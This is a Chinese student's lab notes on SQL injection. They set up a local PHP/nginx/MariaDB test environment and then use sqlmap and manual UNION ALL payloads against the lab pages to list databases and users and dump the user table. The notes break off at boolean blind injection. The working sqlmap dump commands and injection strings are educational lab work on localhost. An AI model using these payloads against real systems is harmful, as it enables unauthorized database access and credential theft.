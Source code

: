 
# SQL注入（进阶）

## 环境搭建

老师的视频中给出的是 Fedola 中的搭建，但在此尝试了 Kali 下的搭建，由于文件目录等的不同，在搭建时出现了诸多问题:
尝试了
https://blog.csdn.net/weixin_54252904/article/details/117855931
https://huaweicloud.csdn.net/638db1bbdacf622b8df8c6a0.html#5mysqlphpnginxmysqlphpapache_36
https://blog.csdn.net/weixin_43268590/article/details/125650002
但都不成功，恢复了无数次快照之后，按照
https://xp-rience.blogspot.com/2020/05/nginx-php-fpm-setup-under-kali-linux.html
成功搭建了 php+nginx 的环境：
![输入图片说明](/imgs/2023-05-01/ybY35dzlQrrS24fa.png)

kali 自带 mysql，但后面还是打不开 1.php，试了好多办法还是不行，推倒重来 fedora 了
大概思路是先安装 nginx（启动，检查是否启动成功），安装php、php-fpm（启动，检查是否启动成功），修改 nginx 配置文件：监听php，这时就可以通过浏览器打开 nginx 目录下的 php 文件了，然后安装 mysql（mariadb 及服务器），使用命令`mysql_secure_installation` 配置mysql，导入需要的sql_injection表，安装 php-mysqlnd，重启 nginx，php-fpm，这是按老师的演示视频就可以打开 1.php 查看内容，*不过我打开还是空白*？但是 1.html 可以打开，输入 user id 后也可正常回显，就这样用着吧先

## 准备工作

为了便于观测，修改数据库配置文件 my.cnf，新建一个日志目录用于记录数据库查询记录，然后使用`sudo tail -f /var/log/mariadb/queries.log` 持续观察：
![输入图片说明](/imgs/2023-05-07/z1PI87MXORtb1ekc.png)

再建立一个 用于mysql查询的命令行窗口：`mysql -u root -p`，输入密码登录进入数据库，再进到表 sql_injection中：`use sql_injection`：

![输入图片说明](/imgs/2023-05-08/R2xSGCa1ApdJmNF9.png)

再建立一个用于 sqlmap 的命令行窗口：

![输入图片说明](/imgs/2023-05-08/qLjm6QeUnti30iVs.png)

在 code 命令行窗口可以查看 php 代码：
![输入图片说明](/imgs/2023-05-08/sfWoM770ThlIfcpO.png)

使用 ZAP 抓 sqlmap 发出的请求包

## 开始实验

### 目标：审阅 php 代码，通过学习 sqlmap 使用了解 sql 注入原理

#### 1.php

1.php 将通过输入的 id 查询对应学生的姓名，并将查询到的结果直接返回到页面

![输入图片说明](/imgs/2023-05-08/YVyVf1NnSjoRSYdA.png)

在 sqlmap 中，输入命令检测是否存在注入点
```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries
```
*-u url*
*-p id （测试参数）*
*–fresh-queries 忽略在会话文件中存储的查询结果*

 发现回显，存在注入点，可以进行三种类型的注入：
 ![输入图片说明](/imgs/2023-05-08/Y8AhkgXd7womGHty.png)

使用
```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries --dbs
```
*--dbs 获取数据库管理系统数据库*

![输入图片说明](/imgs/2023-05-08/GbhcXlkOIG4YwdRW.png)

```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries --current-db
```
*--current-db 获取当前数据库*
![输入图片说明](/imgs/2023-05-08/n43hrWhDSifGhezc.png)

```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries --users
```
*--users 查看用户*

![输入图片说明](/imgs/2023-05-08/HWEfeoS2X94j6hxN.png)

```
/sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries -D sql_injection --tables
```
*-D 数据库名*
*--table 获取表名*

![输入图片说明](/imgs/2023-05-08/udeS9WkDfM1SXKBc.png)

```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries -D sql_injection -T user --dump
```
*-T 表名
--dump 转储数据库管理系统的数据库中的表项*

![输入图片说明](/imgs/2023-05-08/60I1dHEMH3GOifvW.png)

```
 ./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --proxy='http://127.0.0.1:8080' --fresh-queries --current-db
```
*--proxy='http://127.0.0.1:8080' 通过此代理，设置此项即可让请求通过 ZAP，可以抓到请求包*

**这时看一下 ZAP/sql 查询记录** ，可以看到是用的 **UNION 查询**（这里以拖库时得查询为例）：

![输入图片说明](/imgs/2023-05-09/kXzNQOp5xyYlvgUm.png)
有用的查询：

```
SELECT username,password 
FROM user WHERE id='1' 
UNION ALL SELECT 		    	
	CONCAT(0x71787a7071,
			JSON_ARRAYAGG(CONCAT_WS(0x766c66726e63,column_name,column_type)),0x71706a7171),NULL 
				FROM INFORMATION_SCHEMA.COLUMNS 
					WHERE table_name=0x75736572 AND table_schema=0x73716c5f696e6a656374696f6e-- -'
```
输入到 sql 界面和 url 中看一下

![输入图片说明](/imgs/2023-05-09/aZEYcET0fibvIxmj.png)
![输入图片说明](/imgs/2023-05-09/Ws9GriQLjU8FiXxu.png)

可以看到该语句回显了数据库列名、每列的数据类型、数据长度

```
SELECT username,password 
FROM user WHERE id='1' 
UNION ALL SELECT 	
	CONCAT(0x71787a7071,JSON_ARRAYAGG(CONCAT_WS(0x766c66726e63,`password`,id,username)),0x71706a7171),NULL 
		FROM sql_injection.`user`-- -'
```
用该函数拖库：

![输入图片说明](/imgs/2023-05-09/EmIi4g5a3ahnV4w8.png)

同理，其他 UNION 注入也使用类似语句，如获取库名使用CAST（DATABASE）等

 - [x] 1.php 中未对展示结果进行限制（全部展示），如果对回显限制为只展示一条呢？
 
对于 3.php，每次只能输出一条 username：
![输入图片说明](/imgs/2023-05-09/90p3vA4cUp7Ay0GT.png)

再输入 `1' or '1'='1`不再显示所有 username

![输入图片说明](/imgs/2023-05-09/iEagi3JRwFAIS0ik.png)

用 sqlmap 查一下 3.php 数据库，发现发送的是：
```
SELECT username FROM user WHERE id='-4319' UNION ALL SELECT CONCAT(0x716b766b71,IFNULL(CAST(DATABASE() AS NCHAR),0x20),0x716a627071)-- -'
``` 
对比 1.php，id 用了一个不存在的负随机数“-4319”
```
SELECT username FROM user WHERE id='1' UNION ALL SELECT CONCAT(0x7176787671,IFNULL(CAST(DATABASE() AS NCHAR),0x20),0x71626a7071),NULL-- -''
```
效果，在一行输出：
![输入图片说明](/imgs/2023-05-10/i6GjbFrbaUzVen5B.png)                                                                                                                                                                                                                                                                                                                                           

UNION注入速度最快，但需要在页面直接回显数据库信息时才可使用

 - [x] 如果页面不显示数据库内部信息，只显示是或否呢

看下 5.php：会判断输入 id 是否在数据库存在，存在返回 yes，不存在返回 no
![输入图片说明](/imgs/2023-05-10/0UYlfFNTUN4teX63.png)

只返回是或否，需要使用**布尔盲注**：


















> Written with [StackEdit中文版](https://stackedit.cn/).
>
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTc3NDY2NTYyNSwxNzY5MzI2OTgxLDIwMj
AxMzAwMjgsMjY0NjQxNjAzLDIxMjg1NzMxNjgsLTY2MTE5NDg3
NiwtMjIwMTI2MTYwLC04OTc5Njc2NzEsMTQwNTE2MjM0OSwxMD
g4NzM3MzQ1LDI2OTIwNTA5MywtMjUxMzg2NDkzLC00OTg3MDA1
MjgsLTI3MTY0Mjk2OSwtODU4NzgyOTU4LDExNzcxMDc4MjksMj
gwNzg0NDUzLDExNzAzNDU4OTksLTE3MTEzMzI4NTgsNzk2Mjgz
MTA4XX0=
-->